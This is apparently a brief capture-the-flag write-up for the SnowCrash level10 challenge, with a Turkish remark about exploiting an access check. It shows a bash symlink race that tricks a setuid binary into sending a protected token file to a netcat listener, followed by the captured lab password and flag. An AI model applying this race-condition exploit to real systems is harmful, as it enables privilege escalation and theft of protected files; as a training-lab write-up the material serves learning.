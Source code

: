 

access de ki açığı kullandık 

#!/bin/bash

while true; do
    ln -sf swap link1
    ln -sf token link1
done &

while true; do
        ./level10 link1 10.11.162.105
done


new shh session

 while true; do
> nc -l 6969
> done



level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$